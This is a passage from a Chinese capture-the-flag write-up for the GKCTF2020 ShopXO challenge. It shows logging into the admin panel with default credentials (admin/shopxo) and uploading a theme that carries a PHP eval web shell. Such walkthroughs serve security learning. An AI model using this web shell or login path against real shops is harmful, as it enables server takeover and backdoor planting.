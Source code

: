 ### 5、[GKCTF2020]老八小超市儿

*   ShopXO商城，一个开源商城系统，直接百度[ShopXO漏洞](https://www.nctry.com/1660.html)就能找到，比如说前面那篇。

*   所以，我们仿造步骤，访问`/admin.php` 。登录`admin/shopxo`，成功进入后台管理页面。然后左下角。应用商店，下载一个免费的主题，比如说粉红主题。
    ![在这里插入图片描述](img/3a7aff108351b00f8dfca67ab7b9533e.png)

*   然后本地加一个PHP文件上去。

    ```
    <?php
      @eval($_POST[a]);
      phpinfo(); 
    ?> 
    ```

![在这里插入图片描述](img/89e676a798f2cf828b7ace77d5095cc9.png)

*   然后网站主题管理上传安装。
    ![在这里插入图片描述](img/d5af513d69bb3ae662005bea6d62e8c1.png)
